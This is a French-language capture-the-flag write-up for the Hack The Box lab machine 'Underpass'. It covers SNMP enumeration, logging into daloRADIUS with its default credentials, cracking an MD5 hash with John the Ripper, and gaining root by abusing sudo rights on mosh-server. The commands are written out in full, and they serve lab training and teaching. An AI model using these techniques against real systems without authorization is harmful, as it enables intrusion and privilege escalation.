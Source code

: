 # Underpass (HTB - Active - Easy)
**Date :** 07/05/2025  
**Catégorie :** SNMP Enum, Web/Docker Recon, Password Cracking, Sudo Abuse  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap - TCP

```bash
nmap -sC -sV -oN nmap_tcp.txt 10.10.11.XXX
```

Résultats :
22/tcp - OpenSSH


80/tcp - Apache httpd (default Apache page)


Pas de contenu exploitable sur le port 80.

## Nmap - UDP
```bash
nmap -sU --top-ports 100 -oN nmap_udp.txt 10.10.11.XXX
```
Résultat :
161/udp - SNMP



## Enum SNMP
```bash
snmp-check 10.10.11.XXX
```
![snmp check](./snmp_check.png)
On récupère des informations intéressantes, notamment :
Un nom d’utilisateur


Une adresse e-mail


Une référence au service daloRADIUS



## Recherche sur daloRADIUS
Recherche Google + GitHub → on trouve la documentation et des fichiers .yml/Dockerfile expliquant les chemins utilisés.


### Chemin intéressant découvert :
```bash
/var/www/daloradius
```

On découvre également une URL potentielle :

http://10.10.11.XXX/daloradius/app/operators/login.php

### Bruteforce / Credentials Discovery
Tentative basique d’identifiants sur la page de login → Succès avec :
administrator:radius

Une fois connecté, on accède à une interface d’administration listant des utilisateurs.
On y trouve un username + password hash (MD5)
![user listing](./user_listing.png)

## Crack du mot de passe
Hash récupéré → crack via John the Ripper :
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![john](./john_mdp.png)
Le mot de passe en clair est découvert.
SSH Access

## Connexion SSH avec les identifiants récupérés → accès utilisateur.
```bash
ssh user@10.10.11.XXX
```
![user access](./user_access.png)
user.txt accessible.
Privilege Escalation
## Check des permissions sudo :
```bash
sudo -l
```
On découvre que l’utilisateur peut exécuter :
```bash
/usr/bin/mosh-server
```
![mosh](./mosh_cmd.png)
## Exploitation via mosh-server
Utilisation de mosh avec le binaire mosh-server en sudo :
```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```
Cela démarre une session mosh en root.
Une fois dans le shell :
```bash
cat /root/root.txt
```
![root](./root_access.png)
## 🛠️ Résumé des étapes

| Étape                | Technique                                  |
|----------------------|--------------------------------------------|
| Initial Access       | SNMP enum → découverte de daloRADIUS       |
| Credential Access    | Login admin par défaut + hash MD5 crack    |
| SSH Access           | Identifiants récupérés                     |
| Privilege Escalation | `sudo mosh-server` abuse                   |




